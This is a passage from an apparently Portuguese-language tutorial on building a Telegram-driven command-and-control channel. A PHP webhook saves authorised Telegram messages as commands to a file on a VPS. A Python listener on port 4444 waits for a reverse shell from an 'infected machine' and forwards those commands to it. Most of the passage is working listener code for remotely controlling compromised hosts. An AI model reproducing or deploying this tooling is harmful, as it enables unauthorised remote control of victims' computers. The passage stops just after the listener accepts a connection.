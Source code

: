 #### Funcionamento do Código

**- Configuração do Webhook:** A primeira rota (config) é utilizada para configurar a URL do webhook no Telegram, ela garante que qualquer mensagem enviada ao bot seja retransmitida para o webhook.

**- Processamento das Mensagens:** O método webhook é onde a interação acontece. Ele segue a seguinte lógica:

- Verifica a autenticidade do usuário que enviou a mensagem, comparando com um usuário autorizado definido no arquivo .env.
- Caso o usuário não seja autorizado, uma mensagem de "acesso negado" é enviada de volta para o usuário do Telegram.
- Se autorizado, o script prossegue para verificar a existência do arquivo /var/www/html/arquivo.txt, removendo-o se já existir, para evitar conflitos de comando.
- Por fim, o conteúdo da mensagem, que representa o comando a ser executado, é salvo no arquivo mencionado.

Este método nada ortodoxo, estabelece uma ponte para a comunicação entre o PHP e o Python, que será detalhada a seguir.

## A cobra vai fumar

Na última parte e não menos importante, temos o Python desempenhando o papel de escutar uma porta específica na VPS Linux para o recebimento do shell reverso, além de monitorar a recepção dos comandos do Telegram que serão executados na máquina infectada.

```python
import socket
import time
from watchdog.observers import Observer
from watchdog.events import FileSystemEventHandler
import time
import os

host = '0.0.0.0'
port = 4444

caminho_para_monitorar = "/var/www/html"
nome_arquivo = "arquivo.txt"
caminho_completo = caminho_para_monitorar +"/" +nome_arquivo;

class MeuHandler(FileSystemEventHandler):
    def on_created(self, event):
        if nome_arquivo in event.src_path:
            if os.path.exists(caminho_completo):
                with open(caminho_completo, 'r') as arquivo:
                    conteudo = arquivo.read()
                    enviar_mensagem(conteudo)
                    time.sleep(2)
                    os.remove(caminho_completo)

def enviar_mensagem(mensagem):
    global client_socket
    if client_socket:
        client_socket.sendall(mensagem.encode('utf-8'))

server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server_socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
server_socket.bind((host, port))
server_socket.listen()

print(f"Servidor escutando em {host}:{port}...")
print(f"Monitorando a criação de {nome_arquivo} em {caminho_para_monitorar}.")

client_socket, address = server_socket.accept()
```